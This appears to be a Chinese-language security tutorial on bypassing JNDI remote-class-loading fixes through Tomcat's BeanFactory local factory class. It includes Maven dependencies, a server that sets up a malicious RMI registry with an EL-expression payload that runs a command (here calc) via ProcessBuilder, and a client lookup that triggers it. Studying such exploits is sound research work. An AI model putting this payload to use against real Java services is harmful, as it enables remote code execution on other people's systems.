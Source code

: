 通过加载本地类
-------

从上面的RMI跟LDAP的过程中可以看到，都是利用远程加载并也已经修复了，但是不是也可以利用本地的类进行利用，对于本地的类也是有要求的，这个类必须是个工厂类，该工厂类型必须实现javax.naming.spi.ObjectFactory 接口，因为在javax.naming.spi.NamingManager#getObjectFactoryFromReference最后的return语句对工厂类的实例对象进行了类型转换return (clas != null) ? (ObjectFactory) clas.newInstance() : null;；并且该工厂类至少存在一个 getObjectInstance() 方法，根据网上文章org.apache.naming.factory.BeanFactory是可利用的，并且该类存在于Tomcat依赖包中应用比较广泛。

**Tomcat8**

首先加载maven,如果com.springsource.org.apache.el包获取失败，可以下载对应jar包然后导入。

```php
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-catalina</artifactId>
    <version>8.5.0</version>
</dependency>

<dependency>
    <groupId>org.apache.el</groupId>
    <artifactId>com.springsource.org.apache.el</artifactId>
    <version>7.0.26</version>
</dependency>
```

服务端示例代码如下

```php
    public static void main(String[] args) throws Exception{

        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);

        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        ref.add(new StringRefAddr("forceString", "x=eval"));
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['calc']).start()\")"));

        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);

    }
```

客户端示例代码如下

```php
    public static void main(String[] args) throws Exception{
        InitialContext initialContext = new InitialContext();
        initialContext.lookup("rmi://localhost:1097/Object");
    }
```
